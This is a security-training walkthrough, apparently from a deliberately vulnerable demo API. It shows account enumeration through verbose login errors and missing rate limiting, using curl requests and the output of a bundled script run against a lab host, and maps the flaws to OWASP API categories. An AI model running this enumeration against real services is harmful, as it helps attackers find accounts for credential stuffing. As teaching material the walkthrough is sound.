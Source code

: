 # Identify registered email addresses

A lot of valuable information has been leaked in the past by others. Attackers can easily get lists of email addresses - sometimes even with passwords - of accounts that were leaked elsewhere. Because our API returns errors messages that are too verbose and because there is no rate limiting on the `/auth/login` endpoint, attackers can easily match lists of email addresses with registered accounts. 

```bash
curl -X POST http://<hostname>:<port>/auth/login -H "Content-Type: application/json" -d "{\"email\":\"doesnotexist@gmail.com\",\"password\":\"password123\"}"
{"status":401,"message":"Wrong email address"}

curl -X POST http://<hostname>:<port>/auth/login -H "Content-Type: application/json" -d "{\"email\":\"overrillo0@redcross.org\",\"password\":\"password123\"}"
{"status":401,"message":"Wrong password"}
```

Here is a list of [1000 leaked email addresses](../../demos//attack-2/leaked.txt). With a bit of scripting - which I have done for you - you can easily try every email address and see what happens. The script sends the email address with password `password` to the API. Using the error message (`Wrong email address` or `Wrong password`) we can identify those email addresses that are registered with an account. When we run the script we see that we've been able to match six email addresses. 

```bash
deliver haveibeenpwned ./leaked.txt
______ _____ _     _____ _   _ ___________
|  _  \  ___| |   |_   _| | | |  ___| ___ \
| | | | |__ | |     | | | | | | |__ | |_/ /
| | | |  __|| |     | | | | | |  __||    /
| |/ /| |___| |_____| |_\ \_/ / |___| |\ \
|___/ \____/\_____/\___/ \___/\____/\_| \_|


Attacking http://192.168.1.23:3333/auth/login
Dictionary has 1000 email addresses
Trying 100 batches of 10 emails

[==================================================] 100% 0.0s

Duration: 2.108 secs
Found 6 accounts

lposthill1@sbwire.com
pchampkin2@t.co
nratcliffe3@digg.com
odettmar4@salon.com
cdonnell5@desdev.cn
hhalward6@google.nl
``` 

In this example we've seen two of the [OWASP API top 10](https://owasp.org/www-project-api-security/) vulnerabilities:

- [API3-2019: Excessive Data Exposure](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa3-excessive-data-exposure.md) as there is too much information in the JWT token payload.
- [API4-2019: Lack of Resources & Rate Limiting](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa4-lack-of-resources-and-rate-limiting.md) as there is no restriction on how many times you can try to log in.
- [API7-2019: Security Misconfiguration](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa7-security-misconfiguration.md) as the error messages are too verbose and give an attacker clues about how to identify accounts. 

# Note 

- For convenience reasons I have included a script here that performs the attack for you. [Burp Suite](https://portswigger.net/burp) is a well-known application for penetration testing and provides similar featuers and much more. It has a steep learning curve, but if you are serious about penetration testing you'll want to dig into it.

- An awesome resource for checking if you own email address has every been compromised in a breach is the website [';-- Have I Been Pwned?](https://haveibeenpwned.com/).